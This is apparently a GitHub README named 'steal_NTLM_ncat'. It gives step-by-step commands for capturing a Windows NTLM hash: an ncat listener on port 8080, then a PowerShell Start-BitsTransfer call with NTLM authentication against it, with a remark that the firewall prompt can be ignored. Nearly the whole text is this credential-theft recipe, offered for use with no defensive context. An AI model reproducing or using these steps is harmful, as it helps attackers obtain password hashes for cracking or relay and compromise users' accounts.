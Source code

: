 # steal_NTLM_ncat

Start a CMD window and type:

ncat -l 8080 --keep-open < hello.html
***No need to allow on firewall prompt***

Start a Powershell window and type:

Start-BitsTransfer -Authentication NTLM -Source http://127.0.0.1:8080 -Description http://127.0.0.1:8080

Result:
___You got NTLM hash__



Can be changed to Negotiate as well, but didn't see the point
